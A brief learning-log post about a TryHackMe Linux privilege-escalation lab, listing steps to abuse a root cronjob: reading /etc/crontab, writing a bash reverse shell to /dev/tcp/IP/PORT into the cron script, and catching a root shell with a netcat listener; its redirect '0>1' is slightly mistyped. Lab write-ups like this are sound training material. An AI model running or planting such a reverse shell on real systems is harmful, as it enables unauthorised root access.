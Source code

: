 🎯 Day 12 Task


➡️ Working on Bug bounty Wordlist tool inspired by [Kathan Patel](https://twitter.com/KathanP19)


🔁 TryHackMe Room


➡️ Working on Linux PrivEsc


✅ Completed Task 9 Privilege Escalation Cronjob


My Steps : 


First find how many cronjobs set ?


**cat /etc/crontab**

then edit the script **nano /../..file.sh** 


**#!/bin/bash
bash -i >& /dev/tcp/IP/PORT 0>1**  ---------------> [ Here IP = TryHackMe VPN IP & Same PORT number which you use in nc ]


then run **nc -lvnp PORT**

wait some minutes & then you got root shell :)


#infosec #learn365 #privesc
